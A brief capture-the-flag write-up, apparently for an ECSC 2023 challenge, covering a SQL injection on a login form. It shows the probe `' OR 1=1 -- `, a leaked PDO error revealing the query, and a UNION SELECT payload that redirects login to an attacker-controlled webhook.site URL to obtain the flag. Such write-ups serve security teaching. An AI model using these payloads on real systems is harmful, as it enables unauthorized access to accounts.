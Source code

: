 First things first, a SQL injection attempt: `' OR 1=1 -- `. I get a weird looking error `error:Could not resolve host: chat.evil-corporation.private` which ensures me that the field is indeed injectable, so I put there some nonsense like `' test` and get this error:
```
Fatal error
: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: syntax error at or near "test" LINE 1: ...name, webhook_login_url FROM users WHERE username = '' test' ^ in /var/www/html/login.php:47 Stack trace: #0 /var/www/html/login.php(47): PDO->query('SELECT username...') #1 {main} thrown in
```
which basically gives me SQL query. Based on that query I inject this sql code:
```sql
' union select 'test', 'https://webhook.site/2c96e78b-2e10-480e-9d7d-d8bb2f5ff76f' -- 
```
that impersonates `webhook_login_url` from database. Result:

![](image.png)

I enter the link into browser, it logs me in and gives me access to the flag url: https://e-pulap.ecsc23.hack.cert.pl/static/flag_deadbeef_cofebabe_etc.txt

